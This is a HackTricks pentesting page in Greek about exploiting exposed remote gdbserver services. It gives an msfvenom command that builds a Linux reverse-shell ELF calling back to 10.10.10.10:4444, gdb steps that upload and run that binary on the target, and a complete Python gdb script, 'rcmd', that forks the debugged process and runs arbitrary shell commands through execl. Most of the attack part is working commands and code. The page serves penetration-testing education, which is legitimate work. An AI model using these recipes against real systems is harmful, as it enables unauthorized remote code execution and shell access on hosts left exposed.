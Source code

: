 # Pentesting Remote GdbServer

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Άμεσα διαθέσιμη ρύθμιση για αξιολόγηση ευπαθειών & διείσδυση**. Εκτελέστε μια πλήρη pentest από οπουδήποτε με 20+ εργαλεία & δυνατότητες που κυμαίνονται από αναγνώριση έως αναφορά. Δεν αντικαθιστούμε τους pentesters - αναπτύσσουμε προσαρμοσμένα εργαλεία, μονάδες ανίχνευσης & εκμετάλλευσης για να τους δώσουμε πίσω λίγο χρόνο για να εμβαθύνουν, να ανοίξουν κέλυφος και να διασκεδάσουν.

{% embed url="https://pentest-tools.com/" %}

## **Βασικές Πληροφορίες**

**gdbserver** είναι ένα εργαλείο που επιτρέπει την αποσφαλμάτωση προγραμμάτων απομακρυσμένα. Εκτελείται παράλληλα με το πρόγραμμα που χρειάζεται αποσφαλμάτωση στο ίδιο σύστημα, γνωστό ως "στόχος." Αυτή η ρύθμιση επιτρέπει στον **GNU Debugger** να συνδεθεί από μια διαφορετική μηχανή, τον "οικοδεσπότη," όπου αποθηκεύονται ο πηγαίος κώδικας και μια δυαδική αντιγραφή του αποσφαλματωμένου προγράμματος. Η σύνδεση μεταξύ του **gdbserver** και του αποσφαλματωτή μπορεί να γίνει μέσω TCP ή μιας σειριακής γραμμής, επιτρέποντας ευέλικτες ρυθμίσεις αποσφαλμάτωσης.

Μπορείτε να κάνετε τον **gdbserver να ακούει σε οποιαδήποτε θύρα** και αυτή τη στιγμή **το nmap δεν είναι ικανό να αναγνωρίσει την υπηρεσία**.

## Εκμετάλλευση

### Ανέβασμα και Εκτέλεση

Μπορείτε εύκολα να δημιουργήσετε ένα **elf backdoor με το msfvenom**, να το ανεβάσετε και να το εκτελέσετε:
```bash
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.10.11:1337

# Upload elf file
remote put binary.elf binary.elf

# Set remote executable file
set remote exec-file /home/user/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```
### Execute arbitrary commands

Υπάρχει ένας άλλος τρόπος να **κάνετε τον αποσφαλματωτή να εκτελεί αυθαίρετες εντολές μέσω ενός** [**προσαρμοσμένου script python που έχει ληφθεί από εδώ**](https://stackoverflow.com/questions/26757055/gdbserver-execute-shell-commands-of-the-target).
```bash
# Given remote terminal running `gdbserver :2345 ./remote_executable`, we connect to that server.
target extended-remote 192.168.1.4:2345

# Load our custom gdb command `rcmd`.
source ./remote-cmd.py

# Change to a trusty binary and run it to load it
set remote exec-file /bin/bash
r

# Run until a point where libc has been loaded on the remote process, e.g. start of main().
tb main
r

# Run the remote command, e.g. `ls`.
rcmd ls
```
Πρώτα απ' όλα **δημιουργήστε τοπικά αυτό το σενάριο**:

{% code title="remote-cmd.py" %}
```python
#!/usr/bin/env python3

import gdb
import re
import traceback
import uuid


class RemoteCmd(gdb.Command):
def __init__(self):
self.addresses = {}

self.tmp_file = f'/tmp/{uuid.uuid4().hex}'
gdb.write(f"Using tmp output file: {self.tmp_file}.\n")

gdb.execute("set detach-on-fork off")
gdb.execute("set follow-fork-mode parent")

gdb.execute("set max-value-size unlimited")
gdb.execute("set pagination off")
gdb.execute("set print elements 0")
gdb.execute("set print repeats 0")

super(RemoteCmd, self).__init__("rcmd", gdb.COMMAND_USER)

def preload(self):
for symbol in [
"close",
"execl",
"fork",
"free",
"lseek",
"malloc",
"open",
"read",
]:
self.load(symbol)

def load(self, symbol):
if symbol not in self.addresses:
address_string = gdb.execute(f"info address {symbol}", to_string=True)
match = re.match(
f'Symbol "{symbol}" is at ([0-9a-fx]+) .*', address_string, re.IGNORECASE
)
if match and len(match.groups()) > 0:
self.addresses[symbol] = match.groups()[0]
else:
raise RuntimeError(f'Could not retrieve address for symbol "{symbol}".')

return self.addresses[symbol]

def output(self):
# From `fcntl-linux.h`
O_RDONLY = 0
gdb.execute(
f'set $fd = (int){self.load("open")}("{self.tmp_file}", {O_RDONLY})'
)

# From `stdio.h`
SEEK_SET = 0
SEEK_END = 2
gdb.execute(f'set $len = (int){self.load("lseek")}($fd, 0, {SEEK_END})')
gdb.execute(f'call (int){self.load("lseek")}($fd, 0, {SEEK_SET})')
if int(gdb.convenience_variable("len")) <= 0:
gdb.write("No output was captured.")
return

gdb.execute(f'set $mem = (void*){self.load("malloc")}($len)')
gdb.execute(f'call (int){self.load("read")}($fd, $mem, $len)')
gdb.execute('printf "%s\\n", (char*) $mem')

gdb.execute(f'call (int){self.load("close")}($fd)')
gdb.execute(f'call (int){self.load("free")}($mem)')

def invoke(self, arg, from_tty):
try:
self.preload()

is_auto_solib_add = gdb.parameter("auto-solib-add")
gdb.execute("set auto-solib-add off")

parent_inferior = gdb.selected_inferior()
gdb.execute(f'set $child_pid = (int){self.load("fork")}()')
child_pid = gdb.convenience_variable("child_pid")
child_inferior = list(
filter(lambda x: x.pid == child_pid, gdb.inferiors())
)[0]
gdb.execute(f"inferior {child_inferior.num}")

try:
gdb.execute(
f'call (int){self.load("execl")}("/bin/sh", "sh", "-c", "exec {arg} >{self.tmp_file} 2>&1", (char*)0)'
)
except gdb.error as e:
if (
"The program being debugged exited while in a function called from GDB"
in str(e)
):
pass
else:
raise e
finally:
gdb.execute(f"inferior {parent_inferior.num}")
gdb.execute(f"remove-inferiors {child_inferior.num}")

self.output()
except Exception as e:
gdb.write("".join(traceback.TracebackException.from_exception(e).format()))
raise e
finally:
gdb.execute(f'set auto-solib-add {"on" if is_auto_solib_add else "off"}')


RemoteCmd()
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**Άμεσα διαθέσιμη ρύθμιση για αξιολόγηση ευπαθειών & δοκιμές διείσδυσης**. Εκτελέστε μια πλήρη δοκιμή από οπουδήποτε με 20+ εργαλεία & δυνατότητες που κυμαίνονται από αναγνώριση έως αναφορά. Δεν αντικαθιστούμε τους pentesters - αναπτύσσουμε προσαρμοσμένα εργαλεία, μονάδες ανίχνευσης & εκμετάλλευσης για να τους δώσουμε πίσω λίγο χρόνο να εμβαθύνουν, να ανοίξουν κέλυφος και να διασκεδάσουν.

{% embed url="https://pentest-tools.com/" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
